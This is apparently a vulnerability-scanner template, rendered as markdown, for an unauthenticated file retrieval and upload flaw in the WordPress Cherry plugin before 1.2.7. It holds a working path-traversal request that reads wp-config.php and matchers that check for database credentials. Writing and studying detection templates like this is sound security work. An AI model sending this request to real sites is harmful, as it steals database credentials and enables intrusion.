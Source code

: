 ### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# Cherry Plugin \< 1.2.7 - Arbitrary File Retrieval and File Upload

## Description

- WordPress plugin Cherry \< 1.2.7 contains an unauthenticated file upload and download vulnerability, allowing attackers to upload and download arbitrary files. This could result in attacker uploading backdoor shell scripts or downloading the wp-config.php file.
- severity - high
- tags - wordpress,wp-plugin,lfi,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/cherry-plugin/admin/import-export/download-content.php?file=../../../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

